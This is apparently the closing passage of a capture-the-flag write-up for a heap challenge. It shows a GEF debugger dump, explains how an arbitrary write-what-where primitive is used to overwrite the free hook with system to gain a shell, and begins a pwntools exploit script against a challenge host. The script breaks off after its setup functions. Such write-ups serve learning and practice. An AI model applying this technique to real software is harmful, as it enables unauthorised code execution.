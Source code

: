 ```
$r10   : 0xffffffeb        
$r11   : 0x246             
$r12   : 0x00005555555551c0  →  <_start+0000> endbr64 
$r13   : 0x00007fffffffdbc0  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda40│+0x0000: 0x00000002f7e2b710	 ← $rsp
0x00007fffffffda48│+0x0008: 0x00007fffffffda70  →  0x00007fffffffdaf0  →  0x0000000000000001
0x00007fffffffda50│+0x0010: 0x00007fffffffdae0  →  0x00005555555557b0  →  <__libc_csu_init+0000> endbr64 	 ← $rbp
0x00007fffffffda58│+0x0018: 0x0000555555555753  →  <main+00cc> jmp 0x5555555557a1 <main+282>
0x00007fffffffda60│+0x0020: 0x0000000001958ac0
0x00007fffffffda68│+0x0028: 0x0000000200000000
0x00007fffffffda70│+0x0030: 0x00007fffffffdaf0  →  0x0000000000000001
0x00007fffffffda78│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x555555555652 <alter_position+00e4> mov    rax, QWORD PTR [rax+0x50]
   0x555555555656 <alter_position+00e8> mov    rdx, QWORD PTR [rbp-0x8]
   0x55555555565a <alter_position+00ec> mov    rdx, QWORD PTR [rdx+0x58]
●→ 0x55555555565e <alter_position+00f0> mov    QWORD PTR [rax], rdx
   0x555555555661 <alter_position+00f3> lea    rsi, [rip+0xb70]        # 0x5555555561d8
   0x555555555668 <alter_position+00fa> lea    rdi, [rip+0xae3]        # 0x555555556152
   0x55555555566f <alter_position+0101> call   0x5555555553ab <say>
   0x555555555674 <alter_position+0106> mov    rax, QWORD PTR [rbp-0x8]
   0x555555555678 <alter_position+010a> mov    eax, DWORD PTR [rax+0x60]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "jack-sparrow", stopped 0x55555555565e in alter_position (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x55555555565e → alter_position()
[#1] 0x555555555753 → main()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```

As it can be seen, the program is writing the second long value to the first long value, interpreting the first long value as an address. This is an arbitrary write-what-where primitive. This was the missing key in my plan of overwriting the free hook.

Now, I use the write-what-where to overwrite free hook with system and selected the third option to execute free on the buffer and I got the shell.

### Final exploit
```py
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("challs.airoverflow.com", 29798)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
```